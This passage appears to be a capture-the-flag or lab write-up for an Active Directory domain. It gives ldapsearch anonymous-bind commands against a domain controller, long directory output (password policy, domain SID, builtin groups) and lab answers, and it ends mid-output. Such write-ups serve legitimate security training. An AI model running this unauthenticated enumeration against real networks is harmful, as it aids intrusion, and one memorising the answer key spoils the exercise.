# Nmap done at Tue Nov 25 14:14:37 2025 -- 1 IP address (1 host up) scanned in 217.10 seconds
```

---
**Question 2:** What is the IP Address of the hypervisor running in the domain?
**Answer:** 10.5.2.111

---

---
**Question 7:** What's the Certificate Authority Name?
**Answer:** telecore-PKI-SRV-CA

---

### LDAP Enumeration

#### Domain Controller Enumeration via LDAP

- **Objective:** To determine the Domain Functional Level (DFL) of the Active Directory environment by querying the LDAP service on the Primary Domain Controller (dc01.telecore.ad).

- **Methodology:** An anonymous bind attempt was made using ldapsearch to query the msDS-Behavior-Version attribute at the domain's base distinguished name (dc=telecore,dc=ad). This tests if unauthenticated users can extract domain information.

**1) Execute Initial Base Query:**

```bash
ldapsearch -H ldap://10.5.2.2 -x -b "dc=telecore,dc=ad" -s base   
```

**Result:**

```bash                
# extended LDIF
#
# LDAPv3
# base <dc=telecore,dc=ad> with scope baseObject
# filter: (objectclass=*)
# requesting: ALL
#

# telecore.ad
dn: dc=telecore,dc=ad
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=telecore,DC=ad
instanceType: 5
whenCreated: 20250729074227.0Z
whenChanged: 20251004123926.0Z
subRefs: DC=ForestDnsZones,DC=telecore,DC=ad
subRefs: DC=DomainDnsZones,DC=telecore,DC=ad
subRefs: CN=Configuration,DC=telecore,DC=ad
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAOl0RgZRvWEmbPesT+2DWXA==
uSNChanged: 151563
name: telecore
objectGUID:: FH6TytlkXEa/nBPxwmM5Sw==
replUpToDateVector:: AgAAAAAAAAAFAAAAAAAAADpdEYGUb1hJmz3rE/tg1lwUCAIAAAAAAMCZ5
 h4DAAAA0yfghGA2f02C7p/z72nL5w1VAgAAAAAAUxo3HwMAAAByLP6SyLxTTIhvhx6eTBqkBSACAA
 AAAACzx+0eAwAAAF1vBrsgRZZNo5W2uxGNwSYGMAIAAAAAAIgu8B4DAAAA2JNQ/iJ8y0mJFEz+BEH
 EJC8QAgAAAAAAkoDtHgMAAAA=
creationTime: 134040551660412115
forceLogoff: -9223372036854775808
lockoutDuration: -6000000000
lockOutObservationWindow: -6000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAAb7uqXg+keRhaJxxa
serverState: 1
uASCompat: 0
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=telecore,DC=ad
fSMORoleOwner: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
 CN=Sites,CN=Configuration,DC=telecore,DC=ad
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=tele
 core,DC=ad
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=telecore,DC=ad
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=tel
 ecore,DC=ad
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=telecore,DC=ad
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 telecore,DC=ad
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=t
 elecore,DC=ad
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=tel
 ecore,DC=ad
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=telecore,
 DC=ad
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=telecore,DC=ad
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=teleco
 re,DC=ad
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=telecore,D
 C=ad
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=telecore,DC=ad;2]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=teleco
 re,DC=ad
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=telecore,DC=ad
masteredBy: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=
 Sites,CN=Configuration,DC=telecore,DC=ad
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Nam
 e,CN=Sites,CN=Configuration,DC=telecore,DC=ad
msDS-IsDomainFor: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=telecore,DC=ad
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: telecore

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

---
**Question 3:** What’s the Domain Controller Functionality level?
**Answer:** 7

---

**2) List Domain Information:**

This command is very similar to initial base query, but we filter to specifically look for objects that represent the domain itself.

```bash
ldapsearch -H ldap://10.5.2.2 -x -b "dc=telecore,dc=ad" "(objectClass=domain)"
```

**Result:**

```bash   
# extended LDIF
#
# LDAPv3
# base <dc=telecore,dc=ad> with scope subtree
# filter: (objectClass=domain)
# requesting: ALL
#

# telecore.ad
dn: DC=telecore,DC=ad
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=telecore,DC=ad
instanceType: 5
whenCreated: 20250729074227.0Z
whenChanged: 20251004123926.0Z
subRefs: DC=ForestDnsZones,DC=telecore,DC=ad
subRefs: DC=DomainDnsZones,DC=telecore,DC=ad
subRefs: CN=Configuration,DC=telecore,DC=ad
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAOl0RgZRvWEmbPesT+2DWXA==
uSNChanged: 151563
name: telecore
objectGUID:: FH6TytlkXEa/nBPxwmM5Sw==
replUpToDateVector:: AgAAAAAAAAAFAAAAAAAAADpdEYGUb1hJmz3rE/tg1lwUCAIAAAAAAMCZ5
 h4DAAAA0yfghGA2f02C7p/z72nL5w1VAgAAAAAAUxo3HwMAAAByLP6SyLxTTIhvhx6eTBqkBSACAA
 AAAACzx+0eAwAAAF1vBrsgRZZNo5W2uxGNwSYGMAIAAAAAAIgu8B4DAAAA2JNQ/iJ8y0mJFEz+BEH
 EJC8QAgAAAAAAkoDtHgMAAAA=
creationTime: 134040551660412115
forceLogoff: -9223372036854775808
lockoutDuration: -6000000000
lockOutObservationWindow: -6000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAAb7uqXg+keRhaJxxa
serverState: 1
uASCompat: 0
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=telecore,DC=ad
fSMORoleOwner: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
 CN=Sites,CN=Configuration,DC=telecore,DC=ad
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=tele
 core,DC=ad
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=telecore,DC=ad
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=tel
 ecore,DC=ad
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=telecore,DC=ad
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 telecore,DC=ad
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=t
 elecore,DC=ad
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=tel
 ecore,DC=ad
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=telecore,
 DC=ad
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=telecore,DC=ad
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=teleco
 re,DC=ad
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=telecore,D
 C=ad
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=telecore,DC=ad;2]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=teleco
 re,DC=ad
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=telecore,DC=ad
masteredBy: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=
 Sites,CN=Configuration,DC=telecore,DC=ad
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Nam
 e,CN=Sites,CN=Configuration,DC=telecore,DC=ad
msDS-IsDomainFor: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=telecore,DC=ad
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: telecore

# search reference
ref: ldap://ForestDnsZones.telecore.ad/DC=ForestDnsZones,DC=telecore,DC=ad

# search reference
ref: ldap://DomainDnsZones.telecore.ad/DC=DomainDnsZones,DC=telecore,DC=ad

# search reference
ref: ldap://telecore.ad/CN=Configuration,DC=telecore,DC=ad

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

**Summary:**
   
- **Domain Name:** telecore.ad (distinguishedName: DC=telecore,DC=ad)

- **Domain SID:** S-1-5-21-1872377471-3165950379-1825921629 (Decoded from objectSid:: AQQAAAAAAAUVAAAAb7uqXg+keRhaJxxa)

**3) List Domain Groups:**

This command will search the entire directory for all group objects.

```bash
ldapsearch -H ldap://10.5.2.2 -x -b "dc=telecore,dc=ad" "(objectClass=group)"
```

**Result:**

```bash
# extended LDIF
#
# LDAPv3
# base <dc=telecore,dc=ad> with scope subtree
# filter: (objectClass=group)
# requesting: ALL
#

# Users, Builtin, telecore.ad
dn: CN=Users,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Users
description: Users are prevented from making accidental or intentional system-
 wide changes and can run most applications
member: CN=Domain Users,CN=Users,DC=telecore,DC=ad
member: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=telecore,DC=ad
member: CN=S-1-5-4,CN=ForeignSecurityPrincipals,DC=telecore,DC=ad
distinguishedName: CN=Users,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 8202
uSNChanged: 12381
name: Users
objectGUID:: tQA4tIGyOE2loheKVcQWrA==
objectSid:: AQIAAAAAAAUgAAAAIQIAAA==
sAMAccountName: Users
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Guests, Builtin, telecore.ad
dn: CN=Guests,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Guests
description: Guests have the same access as members of the Users group by defa
 ult, except for the Guest account which is further restricted
member: CN=Domain Guests,CN=Users,DC=telecore,DC=ad
member: CN=Guest,CN=Users,DC=telecore,DC=ad
distinguishedName: CN=Guests,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 8208
uSNChanged: 12383
name: Guests
objectGUID:: 8AdyH6Gn00aj4wC4j2LkmA==
objectSid:: AQIAAAAAAAUgAAAAIgIAAA==
sAMAccountName: Guests
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Remote Desktop Users, Builtin, telecore.ad
dn: CN=Remote Desktop Users,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Remote Desktop Users
description: Members in this group are granted the right to logon remotely
distinguishedName: CN=Remote Desktop Users,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8214
uSNChanged: 8214
name: Remote Desktop Users
objectGUID:: QMWhmnXQG0WOJAyvgLYbyg==
objectSid:: AQIAAAAAAAUgAAAAKwIAAA==
sAMAccountName: Remote Desktop Users
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Network Configuration Operators, Builtin, telecore.ad
dn: CN=Network Configuration Operators,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Network Configuration Operators
description: Members in this group can have some administrative privileges to 
 manage configuration of networking features
distinguishedName: CN=Network Configuration Operators,CN=Builtin,DC=telecore,D
 C=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8215
uSNChanged: 8215
name: Network Configuration Operators
objectGUID:: iHejN6tmiEiGysBUs+hL2w==
objectSid:: AQIAAAAAAAUgAAAALAIAAA==
sAMAccountName: Network Configuration Operators
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Performance Monitor Users, Builtin, telecore.ad
dn: CN=Performance Monitor Users,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Performance Monitor Users
description: Members of this group can access performance counter data locally
  and remotely
distinguishedName: CN=Performance Monitor Users,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8216
uSNChanged: 8216
name: Performance Monitor Users
objectGUID:: in5+HQDirUapMsq58gHPxw==
objectSid:: AQIAAAAAAAUgAAAALgIAAA==
sAMAccountName: Performance Monitor Users
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Performance Log Users, Builtin, telecore.ad
dn: CN=Performance Log Users,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Performance Log Users
description: Members of this group may schedule logging of performance counter
 s, enable trace providers, and collect event traces both locally and via remo
 te access to this computer
distinguishedName: CN=Performance Log Users,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8217
uSNChanged: 8217
name: Performance Log Users
objectGUID:: RzRd0AwDek2QB2Gdm7qRaQ==
objectSid:: AQIAAAAAAAUgAAAALwIAAA==
sAMAccountName: Performance Log Users
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Distributed COM Users, Builtin, telecore.ad
dn: CN=Distributed COM Users,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Distributed COM Users
description: Members are allowed to launch, activate and use Distributed COM o
 bjects on this machine.
distinguishedName: CN=Distributed COM Users,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8218
uSNChanged: 8218
name: Distributed COM Users
objectGUID:: QqMv41ik9Ua82G0sT8FSZQ==
objectSid:: AQIAAAAAAAUgAAAAMgIAAA==
sAMAccountName: Distributed COM Users
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# IIS_IUSRS, Builtin, telecore.ad
dn: CN=IIS_IUSRS,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: IIS_IUSRS
description: Built-in group used by Internet Information Services.
member: CN=S-1-5-17,CN=ForeignSecurityPrincipals,DC=telecore,DC=ad
distinguishedName: CN=IIS_IUSRS,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8219
uSNChanged: 8222
name: IIS_IUSRS
objectGUID:: 51gtylnui0idkbdUiJoQdA==
objectSid:: AQIAAAAAAAUgAAAAOAIAAA==
sAMAccountName: IIS_IUSRS
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Cryptographic Operators, Builtin, telecore.ad
dn: CN=Cryptographic Operators,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Cryptographic Operators
description: Members are authorized to perform cryptographic operations.
distinguishedName: CN=Cryptographic Operators,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8223
uSNChanged: 8223
name: Cryptographic Operators
objectGUID:: KzuWWxbZjkmJ8/Drlfd66Q==
objectSid:: AQIAAAAAAAUgAAAAOQIAAA==
sAMAccountName: Cryptographic Operators
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Event Log Readers, Builtin, telecore.ad
dn: CN=Event Log Readers,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Event Log Readers
description: Members of this group can read event logs from local machine
distinguishedName: CN=Event Log Readers,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8224
uSNChanged: 8224
name: Event Log Readers
objectGUID:: mSbb7MltzE2uziY878ghsQ==
objectSid:: AQIAAAAAAAUgAAAAPQIAAA==
sAMAccountName: Event Log Readers
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Certificate Service DCOM Access, Builtin, telecore.ad
dn: CN=Certificate Service DCOM Access,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Certificate Service DCOM Access
description: Members of this group are allowed to connect to Certification Aut
 horities in the enterprise
distinguishedName: CN=Certificate Service DCOM Access,CN=Builtin,DC=telecore,D
 C=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8225
uSNChanged: 8225
name: Certificate Service DCOM Access
objectGUID:: AtcomkAIxU611CRCi75ZCA==
objectSid:: AQIAAAAAAAUgAAAAPgIAAA==
sAMAccountName: Certificate Service DCOM Access
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# RDS Remote Access Servers, Builtin, telecore.ad
dn: CN=RDS Remote Access Servers,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: RDS Remote Access Servers
description: Servers in this group enable users of RemoteApp programs and pers
 onal virtual desktops access to these resources. In Internet-facing deploymen
 ts, these servers are typically deployed in an edge network. This group needs
  to be populated on servers running RD Connection Broker. RD Gateway servers 
 and RD Web Access servers used in the deployment need to be in this group.
distinguishedName: CN=RDS Remote Access Servers,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8226
uSNChanged: 8226
name: RDS Remote Access Servers
objectGUID:: yXOt50UoZ0ep+RBt9FRNSQ==
objectSid:: AQIAAAAAAAUgAAAAPwIAAA==
sAMAccountName: RDS Remote Access Servers
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# RDS Endpoint Servers, Builtin, telecore.ad
dn: CN=RDS Endpoint Servers,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: RDS Endpoint Servers
description: Servers in this group run virtual machines and host sessions wher
 e users RemoteApp programs and personal virtual desktops run. This group need
 s to be populated on servers running RD Connection Broker. RD Session Host se
 rvers and RD Virtualization Host servers used in the deployment need to be in
  this group.
distinguishedName: CN=RDS Endpoint Servers,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8227
uSNChanged: 8227
name: RDS Endpoint Servers
objectGUID:: 6Hpev0aFQkmY0Rm7tGtEGg==
objectSid:: AQIAAAAAAAUgAAAAQAIAAA==
sAMAccountName: RDS Endpoint Servers
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# RDS Management Servers, Builtin, telecore.ad
dn: CN=RDS Management Servers,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: RDS Management Servers
description: Servers in this group can perform routine administrative actions 
 on servers running Remote Desktop Services. This group needs to be populated 
 on all servers in a Remote Desktop Services deployment. The servers running t
 he RDS Central Management service must be included in this group.
distinguishedName: CN=RDS Management Servers,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8228
uSNChanged: 8228
name: RDS Management Servers
objectGUID:: 0sbtWIOb6EOFU6GDSFQ0SA==
objectSid:: AQIAAAAAAAUgAAAAQQIAAA==
sAMAccountName: RDS Management Servers
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Hyper-V Administrators, Builtin, telecore.ad
dn: CN=Hyper-V Administrators,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Hyper-V Administrators
description: Members of this group have complete and unrestricted access to al
 l features of Hyper-V.
distinguishedName: CN=Hyper-V Administrators,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8229
uSNChanged: 8229
name: Hyper-V Administrators
objectGUID:: dCAaSbOI2USvdH20zY2AHw==
objectSid:: AQIAAAAAAAUgAAAAQgIAAA==
sAMAccountName: Hyper-V Administrators
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Access Control Assistance Operators, Builtin, telecore.ad
dn: CN=Access Control Assistance Operators,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Access Control Assistance Operators
description: Members of this group can remotely query authorization attributes
  and permissions for resources on this computer.
distinguishedName: CN=Access Control Assistance Operators,CN=Builtin,DC=teleco
 re,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8230
uSNChanged: 8230
name: Access Control Assistance Operators
objectGUID:: 4dFvGQiuNUuSQrQD0pqz7A==
objectSid:: AQIAAAAAAAUgAAAAQwIAAA==
sAMAccountName: Access Control Assistance Operators
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Remote Management Users, Builtin, telecore.ad
dn: CN=Remote Management Users,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Remote Management Users
description: Members of this group can access WMI resources over management pr
 otocols (such as WS-Management via the Windows Remote Management service). Th
 is applies only to WMI namespaces that grant access to the user.
distinguishedName: CN=Remote Management Users,CN=Builtin,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8231
uSNChanged: 8231
name: Remote Management Users
objectGUID:: wSHx3A9+JU+N0cIl4NK0hg==
objectSid:: AQIAAAAAAAUgAAAARAIAAA==
sAMAccountName: Remote Management Users
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Storage Replica Administrators, Builtin, telecore.ad
dn: CN=Storage Replica Administrators,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Storage Replica Administrators
description: Members of this group have complete and unrestricted access to al
